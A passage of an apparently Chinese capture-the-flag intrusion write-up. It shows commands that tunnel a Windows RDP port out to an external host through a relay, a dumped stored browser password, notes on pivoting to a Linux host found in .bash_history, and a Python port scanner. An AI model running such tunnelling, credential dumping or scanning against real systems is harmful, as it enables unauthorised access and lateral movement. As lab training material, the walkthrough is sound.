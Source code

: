 
```
996fbc973641eac5b8df26e30b5640a9.exe -slave 115.28.78.16 6666 0.0.0.0 3389
```
![image_1b6lfnmphdos1buvbvg447ro32n.png-18.3kB][7]

```
./portmap -m 2 -p1 6666 -h2 115.28.78.16 -p2 7777
```

服务器转发出来
![image_1b6lfon6c196us04k2r1i2g1v0l34.png-11.3kB][8]

终于搞定了

在当时找文件的时候，我发现xshell里有个ip

![image_1b6lgdu5fmarovecb41van1a0g3h.png-196.7kB][9]

密码是刚才的hint

```
==================================================
Entry Name        : https://www.baidu.com/
Type              : AutoComplete
Stored In         : Registry
User Name         : iamroot
Password          : abc@elk
Password Strength : Medium
==================================================

```

登陆上去mmp...flag是假的，还要继续找

# linux入侵 #

看看.bash_history有个提到很多次的ip是172.31.13.133

这里应该也是省略了步骤，bash_history里面应该是小m留下的，最开始应该是没有的，这里从arp表里也能看到这个ip


发现有python3，扫一波端口

```
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from socket import *

def portScanner(host,port):
    try:
        s = socket(AF_INET,SOCK_STREAM)
        s.connect((host,port))
        print('[+] %d open' % port)
        s.close()
    except:
        print('[-] %d close' % port)

def main():
    setdefaulttimeout(1)
    for p in range(1,1024):
        portScanner('192.168.0.100',p)

if __name__ == '__main__':
    main()
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pf1t32io7xaoujii6f9rrrcq/image_1b6eu5f6bk4o3l9jsl1g991tsp9.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/zwrf4r3h19lpbvxfy9gqqb17/image_1b6eu5u3ifqo1ajt77k1fdci4rm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pccg6rlisy1ghel0n4s4ijig/image_1b6l5grlb13m1n5s1tf9804m1t13.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wk776ofeeq3lj0ws0zsxsi0r/image_1b6l64uhs1pu61fk35odp3h1uvh1g.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jyn5s78owlpauf91e9ebusza/image_1b6l7encusqp42g1mh2bltgmh1t.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/oii146dyawdch04zh6tlocc8/image_1b6l7j4l81eved3u1q5mbppq052a.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dsayrn7zx9whlhacoe8ngirr/image_1b6lfnmphdos1buvbvg447ro32n.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/venhfwmygje88z05ve8org85/image_1b6lfon6c196us04k2r1i2g1v0l34.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/vkafi9ufrmgjbywat28vnyxb/image_1b6lgdu5fmarovecb41van1a0g3h.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mrstoosa1un6h4e12nw2umz8/image_1b6lr2rq41f1f9l7140f13bd82h3u.png